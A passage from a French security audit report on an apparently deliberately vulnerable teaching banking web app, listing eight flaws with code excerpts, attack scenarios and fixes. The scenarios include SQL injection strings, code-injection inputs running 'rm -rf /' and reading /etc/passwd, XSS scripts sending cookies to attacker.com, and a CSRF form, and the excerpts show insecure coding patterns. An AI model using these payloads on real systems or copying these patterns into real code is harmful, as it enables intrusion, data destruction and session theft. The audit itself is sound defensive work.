- Toutes les fonctionnalités des clients
- Création de nouveaux comptes bancaires
- Consultation de tous les comptes (par ID ou par email du propriétaire)
 
### 1.2 Architecture technique
 
L'application suit une architecture MVC (Model-View-Controller) :
 
- **Modèle** : Classes `Bank`, `User`, `Account` dans le package `model`
- **Vue** : Pages JSP dans `src/main/webapp/view/`
- **Contrôleur** : Servlets dans le package `controllers`
 
**Stack technique :**
- Java 21
- Jakarta EE (Servlet API 6.0)
- JSP avec JSTL
- MySQL (base de données `bankdb`)
- Apache Tomcat 11.x
- Maven pour la gestion des dépendances
 
**Structure des packages :**
```
src/main/java/
├── controllers/          # Servlets (contrôleurs)
├── model/               # Modèles métier (Bank, User, Account)
├── persistence/         # Couche d'accès aux données (JDBC)
└── security/            # Gestion de l'authentification/autorisation
```
 
### 1.3 Modélisation UML
 
#### Diagramme de classes simplifié
 

 
#### Diagramme de séquence - Authentification
 

 
#### Diagramme de séquence - Transaction
 

 
## 2. Méthodologies d'audit réalisées
 
### 2.1 Revue de code statique (Code Review)
 
Analyse manuelle du code source pour identifier :
- Injections SQL
- Injections de code
- Failles XSS (Cross-Site Scripting)
- Problèmes d'authentification/autorisation
- Gestion des sessions
- Validation des entrées
- Gestion des erreurs
 
### 2.2 Tests d'intrusion en mode boîte blanche
 
Tests manuels avec connaissance du code source pour :
- Vérifier l'exploitabilité des vulnérabilités identifiées
- Comprendre les vecteurs d'attaque
- Valider les scénarios d'exploitation
 
### 2.3 Tests d'intrusion en mode boîte noire
 
Tests manuels sans connaissance du code pour :
- Identifier les vulnérabilités visibles depuis l'extérieur
- Tester les mécanismes de sécurité côté client
 
## 3. Vulnérabilités identifiées
 
### 3.1 Injection SQL (SQL Injection)
 
#### 3.1.1 Description
 
L'application construit des requêtes SQL en concaténant directement les valeurs des paramètres utilisateur sans utilisation de requêtes préparées (PreparedStatement). Cela permet à un attaquant d'injecter du code SQL malveillant dans les requêtes.
 
#### 3.1.2 Codes de référence
 
- **OWASP Top 10 2021** : A03:2021 – Injection
- **CWE** : CWE-89 (SQL Injection)
- **CVSS** : Critique (9.8)
 
#### 3.1.3 Fichiers concernés et extraits de code
 
**Fichier : `src/main/java/persistence/users/JdbcUsersPersistence.java`**
 
```44:45:src/main/java/persistence/users/JdbcUsersPersistence.java
public User findUserByEmailAndPwd(String email, String pwd) throws Exception {
    String sql = "SELECT email, name, roles FROM users WHERE email = '" + email + "' and password = '" + pwd + "'";
```
 
**Fichier : `src/main/java/persistence/users/JdbcUsersPersistence.java`**
 
```56:58:src/main/java/persistence/users/JdbcUsersPersistence.java
public User findUserByEmail(String userEmail) throws Exception {
    String sql = "SELECT email, name, roles FROM users WHERE email = '" + userEmail + "'";
    System.out.println(sql);
```
 
**Fichier : `src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java`**
 
```36:38:src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java
public Account save(Account a) throws Exception {
    String sql = "INSERT INTO accounts(owner_email) VALUES ('" + a.getOwner().getEmail() + "')";
    try (Statement st = conn.createStatement()) {
```
 
**Fichier : `src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java`**
 
```49:52:src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java
public Account findById(int accountId) throws SQLException {
    //String sql = "SELECT * FROM accounts WHERE account_id = " + accountId;
    String sql = "SELECT * FROM accounts a INNER JOIN users u ON a.owner_email = u.email WHERE account_id = " + accountId;
    //System.out.println(sql);
```
 
**Fichier : `src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java`**
 
```68:71:src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java
public List<Account> findByOwnerEmail(String ownerEmail) throws SQLException {
    List<Account> accounts = new ArrayList();
    String sql = "SELECT * FROM accounts a INNER JOIN users u ON a.owner_email = u.email WHERE a.owner_email = '" + ownerEmail + "'";
    System.out.println(sql);
```
 
**Fichier : `src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java`**
 
```85:88:src/main/java/persistence/bankAccounts/JdbcAccountsPersistence.java
public void updateBalance(int accountId, double amount) throws SQLException {
    String sql = "UPDATE accounts SET balance = balance + " + amount + " WHERE account_id = " + accountId;
    try (Statement st = conn.createStatement()) {
        st.executeUpdate(sql);
```
 
#### 3.1.4 Scénarios d'attaque
 
**Scénario 1 : Bypass d'authentification**
 
Dans le formulaire de connexion (`login_logout_form.jsp`), un attaquant peut utiliser :
- **Email** : `admin@bank.com' OR '1'='1`
- **Password** : `' OR '1'='1`
 
La requête SQL générée devient :
```sql
SELECT email, name, roles FROM users WHERE email = 'admin@bank.com' OR '1'='1' and password = '' OR '1'='1'
```
 
Cela permet de se connecter sans connaître les identifiants réels.
 
**Scénario 2 : Extraction de données**
 
Dans la recherche de comptes par email (`ViewAccountServlet`), un attaquant peut injecter :
- **pOwnerEmail** : `' UNION SELECT email, name, roles FROM users WHERE '1'='1`
 
Cela permet d'extraire tous les utilisateurs de la base de données.
 
**Scénario 3 : Modification de données**
 
Dans la fonction `updateBalance`, un attaquant peut injecter :
- **accountId** : `1; UPDATE accounts SET balance = 999999 WHERE account_id = 1; --`
 
Cela permet de modifier le solde de n'importe quel compte.
 
#### 3.1.5 Analyse d'impact
 
**Impact critique** :
- Accès non autorisé aux comptes utilisateurs
- Vol de données sensibles (emails, mots de passe en clair, rôles)
- Modification/Suppression de données (soldes, comptes)
- Élévation de privilèges (obtention du rôle ADMIN)
- Compromission complète de la base de données
 
---
 
### 3.2 Injection de code (Code Injection)
 
#### 3.2.1 Description
 
L'application utilise un moteur JavaScript (Nashorn) pour évaluer dynamiquement des expressions arithmétiques dans les transactions. Un attaquant peut injecter du code JavaScript malveillant qui sera exécuté côté serveur.
 
#### 3.2.2 Codes de référence
 
- **OWASP Top 10 2021** : A03:2021 – Injection
- **CWE** : CWE-94 (Code Injection)
- **CVSS** : Critique (9.1)
 
#### 3.2.3 Fichiers concernés et extraits de code
 
**Fichier : `src/main/java/model/Bank.java`**
 
```58:65:src/main/java/model/Bank.java
// VULNERABLE: code injection (the amount could be an arithmetic expressions in javascript syntax for flexibiliy)
public void updateBankAccount(int accountId, String amountExpression) throws Exception {
    System.out.println(amountExpression);
    ScriptEngineManager manager = new ScriptEngineManager();
    ScriptEngine engine = manager.getEngineByName("js");
    Number result = (Number) engine.eval(amountExpression);
    double amount = result.doubleValue();
    this.persistence.updateBalance(accountId, amount);
```
 
**Fichier : `src/main/java/controllers/TransactionServlet.java`**
 
```28:32:src/main/java/controllers/TransactionServlet.java
int accountId= Integer.parseInt(req.getParameter("pAccountId"));
String amountExpression = req.getParameter("pAmountExpression");
try {
    bank.updateBankAccount(accountId, amountExpression);
    req.setAttribute("TransactionOK", true);
```
 
#### 3.2.4 Scénarios d'attaque
 
**Scénario 1 : Exécution de code arbitraire**
 
Dans le formulaire de transaction (`do_transaction.jsp`), un attaquant peut injecter :
- **pAmountExpression** : `100; java.lang.Runtime.getRuntime().exec("rm -rf /")`
 
Cela permet d'exécuter des commandes système arbitraires sur le serveur.
 
**Scénario 2 : Accès au système de fichiers**
 
- **pAmountExpression** : `100; java.io.File.listFiles()`
 
Cela permet de lister les fichiers du serveur.
 
**Scénario 3 : Exfiltration de données**
 
- **pAmountExpression** : `100; java.nio.file.Files.readAllLines(java.nio.file.Paths.get("/etc/passwd"))`
 
Cela permet de lire des fichiers sensibles du système.
 
#### 3.2.5 Analyse d'impact
 
**Impact critique** :
- Exécution de code arbitraire sur le serveur
- Accès au système de fichiers
- Compromission complète du serveur
- Exfiltration de données sensibles
- Installation de backdoors
- Utilisation du serveur comme point de départ pour d'autres attaques
 
---
 
### 3.3 Cross-Site Scripting (XSS) - Stored et Reflected
 
#### 3.3.1 Description
 
L'application affiche des données utilisateur sans les encoder, permettant l'injection de scripts JavaScript malveillants qui seront exécutés dans le navigateur des victimes.
 
#### 3.3.2 Codes de référence
 
- **OWASP Top 10 2021** : A03:2021 – Injection
- **CWE** : CWE-79 (Cross-site Scripting)
- **CVSS** : Moyen (6.1)
 
#### 3.3.3 Fichiers concernés et extraits de code
 
**Fichier : `src/main/webapp/view/view_accounts.jsp`**
 
```37:41:src/main/webapp/view/view_accounts.jsp
<tr>
    <!-- NOT ENCODED -> Stored XSS possible -->
    <td>${account.accountId}</td>
    <td>${account.owner.email}</td>
    <td>${account.owner.name}</td>
    <td>${account.balance}</td>
```
 
**Fichier : `src/main/webapp/index.jsp`**
 
```39:42:src/main/webapp/index.jsp
<c:if test="${not empty param.message}">
     <div class="div-message ${param.messageType eq 'success' ? 'success-message' : 'error-message'}">
            ${param.message}                           
     </div>
</c:if>
```
 
**Fichier : `src/main/java/controllers/AutheticationServlet.java`**
 
```48:49:src/main/java/controllers/AutheticationServlet.java
message = "Successful connection!";
response.sendRedirect("./index.jsp?messageType=success&message="+message);
```
 
**Fichier : `src/main/java/controllers/AutheticationServlet.java`**
 
```56:56:src/main/java/controllers/AutheticationServlet.java
response.sendRedirect("./view/login_logout_form.jsp?messageType=error&message="+message);
```
 
#### 3.3.4 Scénarios d'attaque
 
**Scénario 1 : XSS Reflected via paramètre URL**
 
Un attaquant peut créer un lien malveillant :
```
http://bank-app.com/index.jsp?messageType=success&message=<script>alert(document.cookie)&…
```
 
Lorsque la victime clique sur ce lien, le script s'exécute et peut voler les cookies de session.
 
**Scénario 2 : XSS Stored via nom d'utilisateur**
 
Si un attaquant peut créer un compte avec un nom contenant du JavaScript :
- **Name** : `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`
 
Ce script sera stocké en base et exécuté chaque fois que le nom est affiché.
 
**Scénario 3 : Vol de session**
 
Un script plus sophistiqué peut voler le cookie de session et l'envoyer à un serveur contrôlé par l'attaquant :
```javascript
<script>
var img = new Image();
img.src = "http://attacker.com/steal?cookie=" + document.cookie;
</script>
```
 
#### 3.3.5 Analyse d'impact
 
**Impact moyen à élevé** :
- Vol de cookies de session (hijacking de session)
- Vol d'informations d'authentification
- Redirection vers des sites malveillants
- Exécution d'actions au nom de l'utilisateur authentifié
- Défacement de pages web
 
---
 
### 3.4 Authentification faible
 
#### 3.4.1 Description
 
Plusieurs faiblesses dans le mécanisme d'authentification :
- Mots de passe stockés en clair dans la base de données
- Protection contre les attaques par force brute basée sur des cookies modifiables côté client
- Pas de mécanisme de verrouillage de compte
 
#### 3.4.2 Codes de référence
 
- **OWASP Top 10 2021** : A07:2021 – Identification and Authentication Failures
- **CWE** : CWE-256 (Plaintext Storage of a Password), CWE-307 (Improper Restriction of Excessive Authentication Attempts)
- **CVSS** : Élevé (7.5)
 
#### 3.4.3 Fichiers concernés et extraits de code
 
**Fichier : `src/main/java/persistence/users/JdbcUsersPersistence.java`**
 
```44:46:src/main/java/persistence/users/JdbcUsersPersistence.java
public User findUserByEmailAndPwd(String email, String pwd) throws Exception {
    String sql = "SELECT email, name, roles FROM users WHERE email = '" + email + "' and password = '" + pwd + "'";
    System.out.println(sql);
```
 
**Fichier : `src/main/java/controllers/AutheticationServlet.java`**
 
```74:113:src/main/java/controllers/AutheticationServlet.java
private void limiteRequetes(HttpServletRequest request, HttpServletResponse response) throws IOException, LimiteNbRequestsExceededException {
    int nbRequetes = 0;
    long debutDelai = System.currentTimeMillis();
 
    Cookie nbCookie = rechercherCookie(request, "nbRequetes1min");
    Cookie debutCookie = rechercherCookie(request, "debutDelai");
 
    if (nbCookie != null) {
        try { nbRequetes = Integer.parseInt(nbCookie.getValue()); } catch (Exception e) { nbRequetes = 0; }
    }
    if (debutCookie != null) {
        try { debutDelai = Long.parseLong(debutCookie.getValue()); } catch (Exception e) { debutDelai = System.currentTimeMillis(); }
    }
 
    if (debutCookie == null || (System.currentTimeMillis() - debutDelai) > DELAI_SECONDES * 1000) {
        debutDelai = System.currentTimeMillis();
        nbRequetes = 1;
    } else {
        nbRequetes++;
    }
 
    if (nbRequetes > LIMITE) {
        response.setStatus(429);
        
        String message = "Request limit has been reached (" + LIMITE + " requests/minute) !";
        throw new LimiteNbRequestsExceededException (message);
    }
    Cookie newNbCookie = new Cookie("nbRequetes1min", String.valueOf(nbRequetes));
    newNbCookie.setMaxAge(DELAI_SECONDES);
    newNbCookie.setPath("/");
 
    Cookie newDebutCookie = new Cookie("debutDelai", String.valueOf(debutDelai));
    newDebutCookie.setMaxAge(DELAI_SECONDES);
    newDebutCookie.setPath("/");
 
    response.addCookie(newNbCookie);
    response.addCookie(newDebutCookie);
```
 
#### 3.4.4 Scénarios d'attaque
 
**Scénario 1 : Attaque par force brute**
 
Un attaquant peut contourner la limitation basée sur les cookies en supprimant ou modifiant les cookies `nbRequetes1min` et `debutDelai`. Il peut alors effectuer un nombre illimité de tentatives de connexion.
 
**Scénario 2 : Vol de mots de passe**
 
Si un attaquant accède à la base de données (via SQL Injection), il peut lire tous les mots de passe en clair et les réutiliser sur d'autres sites si les utilisateurs réutilisent leurs mots de passe.
 
**Scénario 3 : Attaque par dictionnaire**
 
Un attaquant peut utiliser une liste de mots de passe courants pour tenter de se connecter à tous les comptes.
 
#### 3.4.5 Analyse d'impact
 
**Impact élevé** :
- Compromission de comptes utilisateurs
- Accès non autorisé aux comptes bancaires
- Vol d'identité
- Perte financière pour les utilisateurs
 
---
 
### 3.5 Contrôle d'accès insuffisant (Broken Access Control)
 
#### 3.5.1 Description
 
Plusieurs problèmes de contrôle d'accès :
- Le rôle utilisateur est stocké dans un cookie modifiable côté client
- La servlet `TransactionServlet` ne vérifie pas l'authentification ni l'autorisation
- Pas de vérification que l'utilisateur ne peut modifier que ses propres comptes
 
#### 3.5.2 Codes de référence
 
- **OWASP Top 10 2021** : A01:2021 – Broken Access Control
- **CWE** : CWE-639 (Authorization Bypass Through User-Controlled Key), CWE-284 (Improper Access Control)
- **CVSS** : Critique (9.1)
 
#### 3.5.3 Fichiers concernés et extraits de code
 
**Fichier : `src/main/java/controllers/AutheticationServlet.java`**
 
```44:46:src/main/java/controllers/AutheticationServlet.java
HttpSession session = request.getSession(true);
session.setAttribute("principal", user);
Cookie roleCookie = new Cookie("ClientRole", user.isAdmin() ? "ADMIN" : "CLIENT");
```
 
**Fichier : `src/main/java/controllers/TransactionServlet.java`**
 
```26:43:src/main/java/controllers/TransactionServlet.java
@Override
protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
    //int accountId= Integer.parseInt(req.getParameter("pAccountId"));
    int accountId= Integer.parseInt(req.getParameter("pAccountId"));
    String amountExpression = req.getParameter("pAmountExpression");
    try {
        bank.updateBankAccount(accountId, amountExpression);
        req.setAttribute("TransactionOK", true);
        Account a = bank.findAccountById(accountId);
        List<Account> accounts = new ArrayList<Account>();
        accounts.add(a);
        req.setAttribute("accounts", accounts);
        req.getRequestDispatcher("./view/view_accounts.jsp").forward(req, resp);   
    }
    catch (Exception e) {
        req.setAttribute("TransactionOK", false);
    }
}
```
 
**Fichier : `src/main/webapp/index.jsp`**
 
```26:33:src/main/webapp/index.jsp
<c:if test="${cookie.ClientRole.value eq 'ADMIN'}">
    <li><a href="./view/admin/create_bank_account_form.jsp">Create a bank account</a></li>
    <li><a href="./view/admin/view_accounts_form.jsp">View account(s)</a></li>
</c:if>
<c:if test="${cookie.ClientRole.value eq 'CLIENT'}">
    <li><a href="./view/client/view_accounts_form.jsp">View account(s)</a></li>
    <li><a href="./view/client/do_transaction.jsp">Perform a transaction</a></li>  
</c:if>
```
 
**Fichier : `src/main/java/controllers/ViewAccountServlet.java`**
 
```91:97:src/main/java/controllers/ViewAccountServlet.java
try {   // défaut : critère de recherche réalisé dans la Servlet  
    int accountId= Integer.parseInt(req.getParameter("pAccountId"));
    String ownerEmail= req.getParameter("pOwnerEmail");
    Account a = bank.findAccountById(accountId);  
    //System.out.println("--- " + accounts.size());
    if (a != null &&a.getOwner().getEmail().equals(ownerEmail)) {
        List<Account> accounts = new ArrayList<Account>();
```
 
#### 3.5.4 Scénarios d'attaque
 
**Scénario 1 : Élévation de privilèges via cookie**
 
Un utilisateur avec le rôle CLIENT peut modifier le cookie `ClientRole` en `ADMIN` pour accéder aux fonctionnalités administrateur :
1. Ouvrir les outils de développement du navigateur
2. Modifier le cookie `ClientRole` de `CLIENT` à `ADMIN`
3. Accéder aux pages d'administration
 
**Scénario 2 : Transaction non autorisée**
 
Un attaquant peut effectuer des transactions sur n'importe quel compte sans authentification :
1. Envoyer une requête POST à `/transaction` avec n'importe quel `pAccountId`
2. Modifier le solde de n'importe quel compte
 
**Scénario 3 : Accès aux comptes d'autres utilisateurs**
 
Un attaquant peut consulter les comptes d'autres utilisateurs en modifiant le paramètre `pOwnerEmail` dans `ViewAccountServlet`.
 
#### 3.5.5 Analyse d'impact
 
**Impact critique** :
- Accès non autorisé aux fonctionnalités administrateur
- Modification de comptes bancaires d'autres utilisateurs
- Vol d'argent
- Consultation de données sensibles d'autres utilisateurs
- Création de comptes frauduleux
 
---
 
### 3.6 Exposition de données sensibles
 
#### 3.6.1 Description
 
Les identifiants de connexion à la base de données sont codés en dur dans le code source, et les messages d'erreur peuvent révéler des informations sensibles sur la structure de l'application.
 
#### 3.6.2 Codes de référence
 
- **OWASP Top 10 2021** : A02:2021 – Cryptographic Failures, A04:2021 – Insecure Design
- **CWE** : CWE-312 (Cleartext Storage of Sensitive Information), CWE-209 (Information Exposure Through an Error Message)
- **CVSS** : Moyen (5.3)
 
#### 3.6.3 Fichiers concernés et extraits de code
 
**Fichier : `src/main/java/persistence/JdbcMySQLMainPersistence.java`**
 
```22:34:src/main/java/persistence/JdbcMySQLMainPersistence.java
private String dbName = "bankdb";
private String dbUserName= "root";
private String udbUserPassword="";
 
private Connection conn;
 
private JdbcAccountsPersistence accountPersistence;
private JdbcUsersPersistence usersPersistence;
 
public JdbcMySQLMainPersistence() {
     try {
         Class.forName("com.mysql.cj.jdbc.Driver");
         this.conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/"+dbName +"?serverTimezone=UTC&characterEncoding=utf8", dbUserName, udbUserPassword);
```
 
**Fichier : `src/main/java/persistence/users/JdbcUsersPersistence.java`**
 
```44:47:src/main/java/persistence/users/JdbcUsersPersistence.java
public User findUserByEmailAndPwd(String email, String pwd) throws Exception {
    String sql = "SELECT email, name, roles FROM users WHERE email = '" + email + "' and password = '" + pwd + "'";
    System.out.println(sql);
    
    Statement st = conn.createStatement();
```
 
#### 3.6.4 Scénarios d'attaque
 
**Scénario 1 : Accès à la base de données**
 
Si le code source est compromis (fuite de code, accès au serveur), un attaquant peut directement se connecter à la base de données avec les identifiants codés en dur.
 
**Scénario 2 : Fuite d'informations via logs**
 
Les requêtes SQL sont imprimées dans les logs système (`System.out.println`), ce qui peut révéler des informations sensibles si les logs sont accessibles.
 
#### 3.6.5 Analyse d'impact
 
**Impact moyen** :
- Accès direct à la base de données si le code source est compromis
- Fuite d'informations via les logs
- Facilitation d'autres attaques
 
---
 
### 3.7 Validation d'entrée insuffisante
 
#### 3.7.1 Description
 
L'application ne valide pas correctement les entrées utilisateur avant de les traiter, permettant l'injection de données malveillantes.
 
#### 3.7.2 Codes de référence
 
- **OWASP Top 10 2021** : A03:2021 – Injection
- **CWE** : CWE-20 (Improper Input Validation)
- **CVSS** : Moyen (6.5)
 
#### 3.7.3 Fichiers concernés et extraits de code
 
**Fichier : `src/main/java/controllers/ViewAccountServlet.java`**
 
```62:64:src/main/java/controllers/ViewAccountServlet.java
String searchType = req.getParameter("searchBy");
if (searchType.equals("serachById")) {
    int accountId= Integer.parseInt(req.getParameter("pAccountId"));
```
 
**Fichier : `src/main/java/controllers/TransactionServlet.java`**
 
```28:30:src/main/java/controllers/TransactionServlet.java
int accountId= Integer.parseInt(req.getParameter("pAccountId"));
String amountExpression = req.getParameter("pAmountExpression");
try {
```
 
#### 3.7.4 Scénarios d'attaque
 
**Scénario 1 : Exception non gérée**
 
Si un paramètre attendu est manquant ou invalide, l'application peut lever une exception non gérée, révélant des informations sur la structure interne.
 
**Scénario 2 : Contournement de validation**
 
Un attaquant peut envoyer des données dans un format inattendu pour contourner les validations côté client.
 
#### 3.7.5 Analyse d'impact
 
**Impact moyen** :
- Facilitation d'autres attaques (SQL Injection, Code Injection)
- Fuite d'informations via les messages d'erreur
- Comportement imprévisible de l'application
 
---
 
### 3.8 Absence de protection CSRF
 
#### 3.8.1 Description
 
L'application ne vérifie pas les tokens CSRF (Cross-Site Request Forgery), permettant à un attaquant de forcer un utilisateur authentifié à effectuer des actions non désirées.
 
#### 3.8.2 Codes de référence
 
- **OWASP Top 10 2021** : A01:2021 – Broken Access Control
- **CWE** : CWE-352 (Cross-Site Request Forgery)
- **CVSS** : Moyen (6.5)
 
#### 3.8.3 Fichiers concernés
 
Toutes les servlets qui acceptent des requêtes POST (`TransactionServlet`, `CreateBankAccountServlet`, `AutheticationServlet`) ne vérifient pas les tokens CSRF.
 
#### 3.8.4 Scénarios d'attaque
 
**Scénario 1 : Transaction non autorisée**
 
Un attaquant peut créer une page web malveillante qui envoie automatiquement une requête POST à `/transaction` lorsque la victime visite la page :
 
```html
<form id="csrf" action="http://bank-app.com/transaction" method="POST">
    <input type="hidden" name="pAccountId" value="1">
    <input type="hidden" name="pAmountExpression" value="-1000">
</form>
<script>document.getElementById("csrf").submit();</script>
```
 
Si la victime est authentifiée, la transaction sera exécutée.
 
#### 3.8.5 Analyse d'impact
 
**Impact moyen à élevé** :
- Exécution d'actions non autorisées au nom d'utilisateurs authentifiés
- Transactions frauduleuses
- Modification de données sans consentement
 
---
 
## 4. Synthèse des vulnérabilités
 
| # | Vulnérabilité | Sévérité | OWASP | CWE | Impact |
|---|---------------|----------|-------|-----|--------|
| 1 | Injection SQL | Critique | A03 | CWE-89 | Accès complet à la base de données |
| 2 | Injection de code | Critique | A03 | CWE-94 | Compromission complète du serveur |
| 3 | Cross-Site Scripting | Moyen | A03 | CWE-79 | Vol de session, hijacking |
| 4 | Authentification faible | Élevé | A07 | CWE-256, CWE-307 | Compromission de comptes |
| 5 | Contrôle d'accès insuffisant | Critique | A01 | CWE-639, CWE-284 | Accès non autorisé |
| 6 | Exposition de données sensibles | Moyen | A02, A04 | CWE-312, CWE-209 | Fuite d'informations |
| 7 | Validation d'entrée insuffisante | Moyen | A03 | CWE-20 | Facilitation d'attaques |
| 8 | Absence de protection CSRF | Moyen | A01 | CWE-352 | Actions non autorisées |
 
## 5. Recommandations de correction
 
### 5.1 Injection SQL
- Utiliser des **PreparedStatement** pour toutes les requêtes SQL
- Valider et sanitizer toutes les entrées utilisateur
- Utiliser un ORM (Hibernate, JPA) avec des requêtes paramétrées
 
### 5.2 Injection de code
- Ne jamais utiliser `ScriptEngine.eval()` avec des entrées utilisateur
- Valider strictement les expressions arithmétiques (regex, parser)
- Utiliser une bibliothèque de parsing d'expressions sécurisée
 
### 5.3 Cross-Site Scripting
- Encoder toutes les sorties avec `c:out` ou `fn:escapeXml()`
- Utiliser Content Security Policy (CSP)
- Valider et encoder toutes les entrées
 
### 5.4 Authentification
- Hasher les mots de passe avec bcrypt ou Argon2
- Implémenter un mécanisme de limitation côté serveur (rate limiting)
- Ajouter un verrouillage de compte après X tentatives échouées
- Implémenter l'authentification à deux facteurs (2FA)
 
### 5.5 Contrôle d'accès
- Stocker les rôles uniquement côté serveur (session)
- Vérifier l'authentification/autorisation dans toutes les servlets
- Implémenter le principe du moindre privilège
- Vérifier que les utilisateurs ne peuvent accéder qu'à leurs propres données
 
### 5.6 Exposition de données sensibles
- Utiliser des variables d'environnement ou un fichier de configuration sécurisé
- Ne jamais logger les requêtes SQL avec des données sensibles
- Utiliser un gestionnaire de secrets (HashiCorp Vault, AWS Secrets Manager)
 
### 5.7 Validation d'entrée
- Valider toutes les entrées côté serveur
- Utiliser des bibliothèques de validation (Bean Validation, Hibernate Validator)
- Rejeter par défaut, accepter explicitement
 
### 5.8 Protection CSRF
- Implémenter des tokens CSRF pour tous les formulaires
- Utiliser le pattern Synchronizer Token Pattern
- Vérifier le header `Referer` ou `Origin`
 
## 6. Conclusion
 
L'application présente **de multiples vulnérabilités critiques** qui compromettent gravement sa sécurité. Les failles les plus critiques sont :
 
1. **L'injection SQL** qui permet un accès complet à la base de données
2. **L'injection de code** qui permet la compromission complète du serveur
3. **Le contrôle d'accès insuffisant** qui permet des accès non autorisés
 
**Niveau de sécurité global : TRÈS FAIBLE**
 
L'application n'est **pas prête pour un déploiement en production** et nécessite des corrections majeures avant toute utilisation réelle. Il est recommandé de :
 
- Effectuer une refonte complète des mécanismes de sécurité
- Implémenter toutes les recommandations de correction
- Effectuer un nouvel audit après les corrections
- Mettre en place un processus de sécurité continue (tests automatisés, code review, scans de vulnérabilités)
 
---
 
**Date de l'audit** : [Date à compléter]  
**Auditeurs** : [Noms à compléter]  
**Version de l'application** : tp1-banque-unsecured-v0
 
 
 
